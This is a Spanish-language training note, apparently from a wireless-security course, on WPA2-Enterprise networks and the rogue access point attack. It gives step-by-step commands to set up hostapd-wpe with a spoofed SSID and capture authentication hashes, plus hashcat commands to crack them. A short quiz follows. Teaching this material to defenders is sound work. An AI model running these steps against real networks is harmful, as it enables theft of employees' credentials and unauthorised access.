

Las redes **WPA/WPA2-Enterprise** ofrecen un mayor control de acceso mediante autenticación individual de usuarios. Sin embargo, presentan vulnerabilidades que pueden ser explotadas mediante un **Punto de Acceso Falso**.

## Características
### Autenticación

- Basada en credenciales de usuario (usuario/contraseña).
- Basada en certificados de cliente.

### Identificación del Punto de Acceso

- Mediante certificados SSL.
- Los dispositivos clientes deben confiar en la CA utilizada para emitir los certificados.

### Distribución de la CA

- Por **GPO** en entornos de Active Directory.
- Mediante **MDM** para dispositivos como Linux, macOS, Android, e iOS.


## Usos
- Redes corporativas con necesidad de control de acceso por usuario.
- Trazabilidad de acciones realizadas por los usuarios.


### Problemas Asociados
1. Acceso directo a la red corporativa desde Wi-Fi.
2. No todos los dispositivos soportan esta tecnología.
3. Necesidad de distribuir la CA de manera segura y eficiente.
4. Sin validación del certificado del Punto de Acceso, es posible realizar ataques de **Punto de Acceso Falso**.

## Ataque: Punto de Acceso Falso
### Requisitos

- La autenticación debe ser mediante **credenciales de usuario**.
- Los dispositivos no deben validar el certificado del Punto de Acceso.

### Detalles del Ataque

- Configurar un Punto de Acceso Falso con **hostapd-wpe**.
- Capturar intentos de autenticación y extraer hashes de autenticación.
- Realizar un proceso de cracking sobre los hashes capturados.



### Implementación

- Instalar hostapd-wpe
```bash
  $ apt-get install hostapd-wpe
```
- Detener NetworkManager
```bash
  $ systemctl stop NetworkManager
```
- Configurar el archivo de hostapd-wpe
```bash
  $ vim /etc/hostapd-wpe/hostapd-wpe.conf
```
Configuración del archivo
```
  interface=wlan0
  ssid=[ssid_de_la_red]
  channel=[1-14] [36-136]
  mode=g # Para 2,4 GHz
  mode=a # Para 5 GHz
```

- Iniciar hostapd-wpe:
```bash
  $ hostapd-wpe /etc/hostapd-wpe/hostapd-wpe.conf
```
- Capturar intentos de autenticación:
	- Los hashes capturados pueden ser procesados con **hashcat**
```bash
    $ hashcat -m 5500 -a 0 hashes-capturadas.txt /usr/share/wordlists/rockyou.txt
    $ hashcat -m 5500 -a3 hashes-capturadas.txt -1 ?u?l?d ?1?1?1?1?1?1?1?1
```
## Para Saber Más
Consulta este [video en YouTube](https://www.youtube.com) sobre ataques WPA2-Enterprise mediante Punto de Acceso Falso con hostapd-wpe.

## Autoevaluación

¿Cuáles son las premisas necesarias para que un ataque de tipo Punto de Acceso Falso sea efectivo en redes WPA2-Enterprise?  

- La autenticación de los clientes debe realizarse mediante certificados.
   - **Incorrecto**
- La autenticación de los clientes debe realizarse mediante credenciales (usuario/contraseña).
		- **Correcto**
- El dispositivo cliente debe estar configurado para no validar el certificado del Punto de Acceso.
   - **Correcto**
